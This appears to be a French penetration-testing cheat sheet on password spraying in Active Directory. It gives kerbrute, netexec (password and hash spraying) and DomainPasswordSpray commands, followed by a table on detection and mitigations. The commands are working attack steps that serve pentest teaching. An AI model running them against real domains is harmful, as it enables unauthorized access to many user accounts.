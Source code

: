### Depuis Linux

#### Utilisation de kerbrute pour faire du password spraying sur une liste d'utilisateur et un password

```bash
kerbrute passwordspray -d $domain --dc $ip users.txt  $password
```

#### password spraying via netexec

```bash
netexec smb $ip -u users.txt -p $password | grep +
```

#### Hash spraying avec netexec

```bash
netexec smb $ip -u users.txt -H hash.txt | grep +
```

---

### Depuis Windows

[https://github.com/dafthack/DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)

```powershell
Import-Module .\DomainPasswordSpray.ps1

Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

---

| Catégorie                    | Information                                                                                                                                                                                                                                                                |     |
| ---------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | --- |
| **TTP**                      | Tentatives d'accès par essais de mots de passe communs sur de nombreux comptes                                                                                                                                                                                             |     |
| **CWE**                      | CWE-307 (Improper Restriction of Excessive Authentication Attempts)                                                                                                                                                                                                        |     |
| **Description de l'attaque** | Le Password Spraying consiste à tester un ou quelques mots de passe courants contre un grand nombre de comptes utilisateurs, réduisant ainsi le risque de détection par rapport aux attaques de force brute classiques.                                                    |     |
| **Impacts potentiels**       | - Accès non autorisé à de multiples comptes<br>- Compromission de la sécurité des informations<br>- Potentiel d'attaques plus larges sur le réseau                                                                                                                         |     |
| **Comment la détecter**      | - Surveillance des tentatives de connexion échouées sur de nombreux comptes<br>- Analyse des journaux pour identifier les modèles d'accès suspects<br>- Utilisation de solutions de détection d'intrusion                                                                  |     |
| **Remédiations/mitigations** | - Mise en œuvre de l'authentification multi-facteurs (MFA)<br>- Politiques de mots de passe forts et variés<br>- Verrouillage de compte après un nombre limité de tentatives échouées<br>- Formation et sensibilisation des utilisateurs sur la sécurité des mots de passe |     |
| **Lien de référence**        | [OWASP - Password Spraying Attack](https://owasp.org/www-community/attacks/Password_spraying_attack)                                                                                                                                                                       |     |

